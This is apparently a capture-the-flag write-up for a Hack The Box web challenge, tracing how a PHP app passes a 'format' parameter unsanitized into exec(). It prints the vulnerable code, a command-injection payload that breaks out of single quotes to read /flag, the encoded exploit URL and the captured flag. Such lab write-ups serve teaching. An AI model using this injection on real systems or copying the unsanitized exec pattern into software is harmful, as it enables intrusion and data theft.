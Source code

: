 # Challenge Progress: TimeKORP (Web)

## Recon & Source Review

### 1. Application Entry Point

The entry point is defined in `index.php`, which registers an autoloader and defines the route:

```php
$router = new Router();
$router->new('GET', '/', 'TimeController@index');
```

This means the request to `/` triggers the `index()` method in `TimeController`.

---

### 2. Controller Behavior

In `controllers/TimeController.php`:

```php
class TimeController {
    public function index($router) {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This passes the user-controlled `format` string to `TimeModel`.

---

### 3. Vulnerable Command Execution

In `models/TimeModel.php`:

```php
$this->command = "date '+" . $format . "' 2>&1";
```

This command is directly passed into `exec()`:

```php
$time = exec($this->command);
```

**VULNERABILITY: Command Injection**

There is **no sanitization**, and since the `format` input is appended inside a single-quoted string, it's possible to break out and inject arbitrary shell commands.

---

## Exploitation

### Malicious Payload:

To escape the single-quoted string and inject shell code:

```
format=%H:%M:%S';cat /flag;echo '
```

### Final Exploit URL:

```
http://94.237.48.12:48434/?format=%25H:%25M:%25S%27%3Bcat%20/flag%3Becho%20%27
```

### Resulting Command:

```
date '+%H:%M:%S';cat /flag;echo '
```

This causes the system to print the time, then output the contents of `/flag` — giving us the flag!

---

## Flag

```
HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_94793f84cc2f4634de81f6718f65948c}
```

---

## Conclusion

This challenge highlights a classic **command injection** vulnerability, often found when unsanitized user input is embedded in shell commands. Escaping user-controlled input is critical to prevent such exploitation.

Thank uuu~~